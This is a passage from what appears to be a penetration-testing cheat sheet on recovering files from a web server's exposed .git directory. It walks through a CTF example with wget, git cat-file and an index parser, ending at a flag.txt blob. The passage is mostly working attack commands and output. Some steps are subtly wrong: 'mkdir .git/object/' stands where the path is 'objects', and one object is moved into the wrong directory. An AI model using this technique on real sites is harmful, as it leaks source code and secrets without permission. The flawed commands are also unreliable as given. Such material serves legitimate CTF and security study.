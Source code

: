     # download the file
    wget http://xxx.web.xxx.com/.git/objects/26/e35470d38c4d6815bc4426a862d5399f04865c
    mkdir .git/object/26
    mv e35470d38c4d6815bc4426a862d5399f04865c .git/objects/26/

    # display the content of the file
    git cat-file -p 26e35470d38c4d6815bc4426a862d5399f04865c
        tree 323240a3983045cdc0dec2e88c1358e7998f2e39
        parent 15ca375e54f056a576905b41a417b413c57df6eb
        author Michael <michael@easyctf.com> 1489390329 +0000
        committer Michael <michael@easyctf.com> 1489390329 +0000
        Initial.
    ```

4. Access the tree 323240a3983045cdc0dec2e88c1358e7998f2e39

    ```powershell
    wget http://xxx.web.xxx.com/.git/objects/32/3240a3983045cdc0dec2e88c1358e7998f2e39
    mkdir .git/object/32
    mv 3240a3983045cdc0dec2e88c1358e7998f2e39 .git/objects/32/

    git cat-file -p 323240a3983045cdc0dec2e88c1358e7998f2e39
        040000 tree bd083286051cd869ee6485a3046b9935fbd127c0        css
        100644 blob cb6139863967a752f3402b3975e97a84d152fd8f        flag.txt
        040000 tree 14032aabd85b43a058cfc7025dd4fa9dd325ea97        fonts
        100644 blob a7f8a24096d81887483b5f0fa21251a7eefd0db1        index.html
        040000 tree 5df8b56e2ffd07b050d6b6913c72aec44c8f39d8        js
    ```

5. Read the data (flag.txt)

    ```powershell
    wget http://xxx.web.xxx.com/.git/objects/cb/6139863967a752f3402b3975e97a84d152fd8f
    mkdir .git/object/cb
    mv 6139863967a752f3402b3975e97a84d152fd8f .git/objects/32/
    git cat-file -p cb6139863967a752f3402b3975e97a84d152fd8f
    ```

### Recovering the content of .git/index

Use the git index file parser, using python3 <https://pypi.python.org/pypi/gin>

```powershell
pip3 install gin
gin ~/git-repo/.git/index
```

Recover name and sha1 hash for each files listed in the index, allowing us to re-use the previous method on the file.

```powershell
$ gin .git/index | egrep -e "name|sha1"
name = AWS Amazon Bucket S3/README.md
sha1 = 862a3e58d138d6809405aa062249487bee074b98

name = CRLF injection/README.md
sha1 = d7ef4d77741c38b6d3806e0c6a57bf1090eec141
```
